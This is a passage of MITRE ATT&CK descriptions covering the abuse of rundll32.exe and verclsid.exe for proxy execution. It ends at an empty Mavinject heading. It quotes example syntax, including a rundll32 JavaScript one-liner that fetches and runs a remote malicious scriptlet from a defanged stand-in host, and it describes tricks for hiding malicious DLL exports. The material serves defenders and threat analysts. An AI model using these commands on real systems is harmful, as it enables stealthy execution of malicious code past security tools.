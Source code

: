 Description:

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute.(Citation: Trend Micro CPL) For example, [ClickOnce](https://attack.mitre.org/techniques/T1127/002) can be proxied through Rundll32.exe.

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion)

#### T1218.012 - System Binary Proxy Execution: Verclsid

Description:

Adversaries may abuse verclsid.exe to proxy execution of malicious code. Verclsid.exe is known as the Extension CLSID Verification Host and is responsible for verifying each shell extension before they are used by Windows Explorer or the Windows Shell.(Citation: WinOSBite verclsid.exe)

Adversaries may abuse verclsid.exe to execute malicious payloads. This may be achieved by running <code>verclsid.exe /S /C {CLSID}</code>, where the file is referenced by a Class ID (CLSID), a unique identification number used to identify COM objects. COM payloads executed by verclsid.exe may be able to perform various malicious actions, such as loading and executing COM scriptlets (SCT) from remote servers (similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010)). Since the binary may be signed and/or native on Windows systems, proxying execution via verclsid.exe may bypass application control solutions that do not account for its potential abuse.(Citation: LOLBAS Verclsid)(Citation: Red Canary Verclsid.exe)(Citation: BOHOPS Abusing the COM Registry)(Citation: Nick Tyrer GitHub)

#### T1218.013 - System Binary Proxy Execution: Mavinject

Description:
